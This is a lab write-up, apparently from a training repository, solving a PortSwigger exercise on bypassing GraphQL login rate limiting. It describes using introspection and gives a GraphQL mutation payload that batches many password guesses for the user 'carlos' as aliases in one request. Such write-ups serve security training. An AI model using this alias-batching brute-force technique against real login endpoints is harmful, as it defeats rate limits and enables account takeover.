 # Bypassing GraphQL brute force protections
# Objective
The user login mechanism for this lab is powered by a GraphQL API. The API endpoint has a rate limiter that returns an error if it receives too many requests from the same origin in a short space of time.

To solve the lab, brute force the login mechanism to sign in as `carlos`. Use the [list of authentication lab passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords) as your password source. 

# Solution
## Analysis
Website uses GraphQL to manage informations about posts and users (including authentication). Website protects itself from brute force attacks by enforcing rate-limiting rules for login.

|![](Images/image-16.png)|
|:--:| 
| *GraphQL example query* |
|![](Images/image-19.png)|
| *Login attempt* |
|![](Images/image-20.png)|
| *Login attempt* |

## Exploitation
### Running introspection query
Website allows for introspection query, which discloses information about database structure as well as hidden fields and functions.

|![](Images/image-17.png)|
|:--:| 
| *Introspection query* |
|![](Images/image-18.png)|
| *Introspection query - Visualization of introspection results* |

### Brute force attack
Brute force rate limiting can be bypassed using aliases. Payload:

```
mutation login{

    bruteforce1: login(input:{username: "carlos", password: "123456"}) {
        token
        success
    }


    bruteforce2: login(input:{username: "carlos", password: "password"}) {
        token
        success
    }


    bruteforce3: login(input:{username: "carlos", password: "12345678"}) {
        token
        success
    }

    ...
}
```

|![](Images/image-21.png)|
|:--:| 
| *Brute force - found credentials* |